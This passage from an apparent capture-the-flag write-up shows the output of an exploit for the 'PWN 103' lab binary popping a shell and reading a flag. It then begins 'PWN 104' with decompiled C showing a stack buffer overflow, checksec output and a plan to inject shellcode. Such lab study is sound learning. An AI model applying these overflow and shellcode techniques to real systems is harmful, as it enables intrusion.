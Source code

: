 ```shell
pl4int3xt@archlinux ~/D/p/pwn103> python3 pwn103.py
[+] Opening connection to 10.10.135.73 on port 9003: Done
[*] Switching to interactive mode
------[jopraveen]: Hello pwners 👋
------[jopraveen]: Hope you're doing well 😄
------[jopraveen]: You found the vuln, right? 🤔
------[pwner]: 
Try harder!!! 💪

👮  Admins only:

Welcome admin 😄
$ ls
flag.txt
pwn103
pwn103.c
$ cat flag.txt
THM{REDACTED..}
$
```

## PWN 104

Let's download the task file and decompile the binary with ghidra. `main()` has a buffer overflow in the read since `local_58` is set to 80 but `read()` reads 200 characters which are more than 80. The binary also leaks the location of the buffer.

```c
void main(void){
  undefined local_58 [80];
  
  setup();
  banner();
  puts(&DAT_00402120);
  puts(&DAT_00402148);
  puts(&DAT_00402170);
  printf("I\'m waiting for you at %p\n",local_58);
  read(0,local_58,200);
  return;
}
```

Running checksec we notice that NX (No Execute) bit is disabled meaning that stored input or data can be executed as code.
>  All we need to do is to get the offset
> * leak the buffer location 
> * subtract the length of our shellcode from the offset to create some space for our shellcode.
> * Finally call the buffer location to execute the shellcode

```shell
pl4int3xt@archlinux ~/D/p/pwn104> checksec --file=pwn104.pwn104
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   46 Symbols	 No	pwn104.pwn104
```
